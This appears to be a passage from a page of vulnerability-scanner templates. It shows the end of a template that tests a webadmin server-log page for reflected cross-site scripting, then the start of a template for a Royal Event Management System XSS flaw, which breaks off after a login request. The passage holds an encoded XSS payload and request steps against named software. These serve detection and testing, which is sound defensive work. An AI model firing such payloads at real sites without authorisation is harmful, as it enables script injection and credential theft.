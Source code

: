 ## Requests

- Method - GET

### URL

- {{BaseURL}}/webadmin/reporter/view_server_log.php?server=localhost&act=stats&filename=&offset=1&count=1000&sortorder=&log=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&offset=&sortitem=&filter=

### Matchers

**Type - word**

- part - body
- words
  1. \</script>\<script>alert(document.domain)\</script>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Royal Event Management System - Cross-Site Scripting

## Description

- Royal Event Management System contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.

- severity - high
- tags - cms,royalevent,packetstorm,xss,authenticated

## Requests

### Step - 1

```
POST /royal_event/ HTTP/1.1
Host: {{Hostname}}
Content-Length: 353
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCSxQll1eihcqgIgD

------WebKitFormBoundaryCSxQll1eihcqgIgD
Content-Disposition: form-data; name="username"

{{username}}
------WebKitFormBoundaryCSxQll1eihcqgIgD
Content-Disposition: form-data; name="password"

{{password}}
------WebKitFormBoundaryCSxQll1eihcqgIgD
Content-Disposition: form-data; name="login"

------WebKitFormBoundaryCSxQll1eihcqgIgD--

```